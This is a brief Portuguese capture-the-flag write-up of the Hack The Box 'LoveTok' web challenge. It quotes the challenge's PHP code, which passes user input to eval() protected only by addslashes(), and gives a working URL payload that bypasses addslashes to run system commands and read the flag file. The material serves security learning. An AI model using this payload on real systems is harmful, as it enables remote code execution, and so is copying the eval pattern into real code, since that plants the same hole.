 #ctf 

https://app.hackthebox.com/challenges/lovetok

A página é bem simples e possui um parâmetro de formatação (no caso r) para a data que é imprimida.

O ctf contém arquivos para baixar e nele é possível ver qual a lógica da página. Ela usa a função `addslashes()` para previnir ataque [[Command Injection|RCE]].

```php
<?php  
class TimeModel  
{  
   public function __construct($format)  
   {  
       $this->format = addslashes($format);  
  
       [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];  
       $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";  
   }  
  
   public function getTime()  
   {  
       eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');  
       return isset($time) ? $time : 'Something went terribly wrong';  
   }  
}

```

Achei este [artigo](https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php) ensinando como burlar esta função através da função `var_dump()`.

```
http://IP:PORT/?format=var_dump(${eval($_GET[1])}=r)&1=system(%22cat%20/flagoS2W9%20%22);
```

GG